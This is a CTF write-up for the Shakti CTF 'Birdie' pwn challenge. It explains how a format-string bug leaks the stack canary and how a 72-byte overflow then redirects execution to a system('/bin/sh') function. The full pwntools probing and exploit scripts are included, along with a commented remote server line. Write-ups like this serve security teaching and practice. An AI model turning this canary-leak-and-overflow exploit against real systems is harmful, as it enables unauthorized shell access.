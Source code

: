 ```yaml
--- 
layout: post 
title:  "[Shakti CTF] Birdie"
date: "2021-04-05" 
categories: PWN 
author: eurus 
---
```


For this challenge we have an elf file that has no PIE but has a stack canary.

```
┌──(pwn)(eurus㉿warfare)-[~/…/ShaktiCTF_TODO/my_writeup/shakti_ctf/Birdie]
└─$ python3 solver.py
[*] '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Birdie/birdie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

disassembling this elf we can see that we have a string format vulnerability and the possibility to make buffer overflow. And we can also see that we have a function that call ```system('/bin/sh')```. In order to win this challenge we need to redirect the flow of this binary to this function.

We can make a buffer overflow if we leak the canary on the stack. Fortunately with the format string vulnerability we can leak information from the binary during its execution.

```python
from pwn import *

elf = ELF('./birdie')
context.binary = elf

for i in range(1, 100):
    p = elf.process()
    p.recvuntil('Enter your name\n')
    p.sendline(f"%{i}$p")
    log.info(f"{i}:")
    leak = p.recvuntil('\n')
    log.info(leak)
    p.close()
```

I have write this little script in order to explore the stack and trying to find the exact position where the canary is.

```text
[*] 1:
[*] 0x7ffe1c4a8b70
[*] 2:
[*] 0x20
[*] 3:
[*] 0x7f69ca347e8e
[*] 4:
[*] 0x10
[*] 5:
[*] 0x7f488078e180
[*] 6:
[*] 0xf0b2ff
[*] 7:
[*] 0xc2
[*] 8:
[*] 0x1
[*] 9:
[*] 0x4008dd
[*] 10:
[*] 0xa7024303125
[*] 11:
[*] (nil)
[*] 12:
[*] 0x400890
[*] 13:
[*] 0x400690
[*] 14:
[*] 0x7ffe929cda80
[*] 15:
[*] 0xd6194b70fcac3700
[*] 16:
[*] 0x400890
[*] 17:
[*] 0x7fccfae1ed0a
[*] 18:
[*] 0x7ffc3a997f28
[*] 19:
[*] 0x100000000
[*] 20:
[*] 0x4007e2
```

with this dump of the stack (attenction, this is not the stack of one single execution, but every leak in an offset is an execution) we can see that the canary is at the offset 15.  So we can dump the stack value sending to the server the string: ```%15$p```.

Now that we have the canary value we theoretically can perform a buffer overflow. Using cyclic and gdb we can find that the offset to the canary in the execution is 72 bytes. So with this information I have wrote a script that redirect the execution of the program.

```python
elf = ELF('./birdie')
context.binary = elf


p = elf.process()
#gdb.attach(p, gdbscript = 'b *0x00000000004007E2')
#p = remote("34.121.211.139", 1111)

p.recvuntil('Enter your name\n')
p.sendline(f"%15$p")
leak = str(p.recvuntil('\n'))
c = leak.replace('b\'','').replace('\\n\'','')

log.info(c)

win = 0x0000000000400873
ret_gd = 0x000000000040060e
canary = int(c, 16)
log.info(str(hex(canary)))
payload = b'A'*72+p64(canary)+p64(0)+p64(ret_gd)+p64(win)

p.recvuntil('Enter the payload\n')
p.sendline(payload)
p.interactive()
```

Doing that we have a shell that permit us to get the flag!
